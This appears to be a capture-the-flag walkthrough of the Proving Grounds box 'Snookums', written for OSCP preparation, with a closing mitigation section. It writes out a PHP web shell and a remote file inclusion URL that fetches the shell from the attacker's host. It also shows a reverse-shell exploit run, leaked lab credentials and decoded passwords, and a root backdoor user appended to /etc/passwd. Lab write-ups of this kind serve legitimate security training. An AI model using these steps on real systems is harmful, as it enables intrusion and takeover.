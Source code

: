 ```yaml
---
title: Snookums
date: 2025-04-18
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: snook.jpg
media_subpath: /assets/img/posts/2025-04-18-snookums/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Linux box Snookums. Let’s start ..

## Nmap

### TCP

Run a quick Nmap scan:

```bash
sudo nmap --open -sV $IP
```

![image.png](image.png)

### UDP

Run UDP scan on top 100 ports:

```bash
 sudo nmap -sU -F $IP -Pn
```

![image.png](image%201.png)

All ports are closed

### Full Nmap scan

```bash
 sudo nmap -sVC -vvv $IP --script vuln
```

## Services

### Port 21

- Searching for public exploits for FTP service does not yield a result

```bash
 searchsploit vsftpd 3.0.2
```

![image.png](image%202.png)

- Anonymous login **allowed** but ls command does not return anything

![image.png](image%203.png)

### Port 22

No easily exploitable and public exploits for this version of the service **openssh 7.4**

### Port 111

Listing avaibale NFS shares does not yield anything 

```bash
showmount -e $IP
```

![image.png](image%204.png)

### Port 139/445

Listing SMB shares we see just default ones 

```bash
smbclient -L //$IP
```

![image.png](image%205.png)

### Port 3306

We are not allowed to connect.

## Web

### Port 80

- Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
- **Simple PHP Photo Gallery v0.8 - this version has RFI vulnerability in**

```bash
http://$IP/image.php?img=
```

We can abuse this by storing **shell.php** web shell and accessing it from web server through RFI:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

and then accessing 

```bash
http://$IP/image.php?img=http://192.168.45.216/shell.php&cmd=<command>
```

![image.png](image%206.png)

## Exploitation

It seems vulnerability exists but 443 port is blocked, so I decided to use a port that is also used by web server 111.

```bash
python3 SimplePHPGal-RCE.py http://$IP/ 192.168.45.216 111
```

![image.png](image%207.png)

That’s it! We are in.

![image.png](image%208.png)

To make a shell interactive I used python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](image%209.png)

Looking at **db.php** we see:

![image.png](image%2010.png)

## Credentials

**>> Database Credentials**

`DBNAME: SimplePHPGal`

`DBUSER: root`

`DBPASS: MalapropDoffUtilize1337`

Enumerating database we found double base64 encoded password of the user **michael**:

![image.png](image%2011.png)
```text
josh : VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= —> TW9iaWxpemVIaXNzU2VlZHRpbWU3NDc= —> MobilizeHissSeedtime747

micheal : U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ== —> SG9ja1N5ZG5leUNlcnRpZnkxMjM= —> HockSydneyCertify123

serena: VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==:  T3ZlcmFsbENyZXN0TGVhbjAwMA==—> OverallCrestLean000
```

![image.png](image%2012.png)

**Now we are michael**

## Privilege Escalation

- [ ]  Situational awareness
- [ ]  Exposed Confidential
- [ ]  Password Authentication Abuse
- [ ]  Hunting Sensitive Information 
- [ ]  Sudo 
- [ ]  SUID/SGID 
- [ ]  Capabilities 
- [ ]  Cron Jobs Abuse 
- [ ]  Kernel Exploits 

I checked `/etc/passwd` and `/etc/shadow` files to see if they are writable by our user, and that is!, we can write to `/etc/passwd`.

> For backwards compatibility, if the second field of a user row in `/etc/passwd` contains a password hash, it takes precedence over the hash in `/etc/shadow`. If `/etc/passwd` is writable, we can easily enter a known password hash for the new root user, and then use the su command to switch to the root user.
{: .prompt-info}
So generate a password and add a new root user or delete x from root, password field or add a new root user with empty password.

```bash
openssl passwd "123456"` #- generating a password
```
```bash
`echo 'root2:lpI/FWQ4TYKik:0:0:root:/root:/bin/bash' >> /etc/passwd` #- adding a new root user with generated password to system
```
Now we are root!

## Mitigation

- **Prevent Remote File Inclusion (RFI)**
    - Disable `allow_url_include` and `allow_url_fopen` in `php.ini`.
    - Use input validation and whitelist allowed file paths to prevent arbitrary file inclusion.
- **Secure Database Credentials**
    - Store credentials outside the web root and use environment variables for sensitive configurations.
    - Implement least privilege access for database users and avoid using administrative accounts in web applications.
- **File Permissions & Ownership**
    - Ensure `/etc/passwd` and other critical system files are only writable by root.
    - Regularly audit file permissions to prevent unauthorized modifications.
- **System Hardening**
    - Keep software and services updated to patch known vulnerabilities.
    - Use a Web Application Firewall (WAF) to detect and block malicious requests.

